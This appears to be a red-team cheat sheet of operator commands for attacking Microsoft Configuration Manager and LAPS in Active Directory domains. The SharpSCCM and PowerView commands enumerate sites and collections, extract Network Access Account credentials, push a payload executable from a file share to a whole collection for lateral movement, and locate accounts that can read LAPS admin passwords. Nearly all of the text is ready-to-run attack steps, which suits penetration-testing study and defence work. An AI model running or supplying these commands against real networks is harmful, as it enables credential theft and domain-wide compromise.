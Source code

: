 ## Microsoft Configuration Manager
**Note:** I couldn't get these commands to work with some of the default payloads. If you get no output, try to find the pid of the conhost.exe child process and `inject [pid] x64 [payload]`
#### Enumeration
`execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe local site-info --no-banner`
- same as `powershell Get-WmiObject -Class SMS_Authority -Namespace root\CCM | select Name, CurrentManagementPoint | fl`

`execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get site-info -d [domain] --no-banner`
`execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get class-instances SMS_Admin --no-banner`
**LogonName** has **RoleNames** permissions over **CollectionNames**

`execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get collections --no-banner`
**Note:** You may see different collections as a different user!
`execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get collection-members -n [collection] --no-banner`
`execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get devices -n [member] -p Name -p FullDomainName -p IPAddresses -p LastLogonUserName -p OperatingSystemNameandVersion --no-banner`
#### Network Access Account (NAA) Credentials
used to login for computers that are not domain-joined
- passed to the machine to be encrypted using DPAPI and stored locally

`execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe local naa -m wmi --no-banner`
alternatively, as local admin: `execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get naa --no-banner`
#### Lateral Movement
requires **Full Administrator** or **Application Administrator** privileges
[[#Serving Payload Internally (SMB)]]
`execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe exec -n [collection] -p "C:\Windows\System32\cmd.exe /c start /b [share]\dns_x64.exe" -s --no-banner`
## LAPS
#### Identifying LAPS
check on disk of joined machine for `C:\Program Files\LAPS\CSE`
search GPO named LAPS: `powerpick Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl`
computers where ms-Mcs-AdmPwdExpirationTime is not null: `powerpick Get-DomainComputer | ? { $_."ms-Mcs-AdmPwdExpirationTime" -ne $null } | select dnsHostName`
#### Reading LAPS Password

Check for LAPS Password Readers
`powerpick Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "ms-Mcs-AdmPwd" -and $_.ActiveDirectoryRights -match "ReadProperty" } | fl ObjectDn, SecurityIdentifier`
`powerpick ConvertFrom-SID [SecurityIdentifier]`
**SecurityIdentifier** can read LAPS password on **ObjectDN**

`powershell-import C:\Tools\LAPSToolkit\LAPSToolkit.ps1`
`powerpick Find-LAPSDelegatedGroups`
`powershell Find-LapsADExtendedRights`
`powershell Find-AdmPwdExtendedRights`

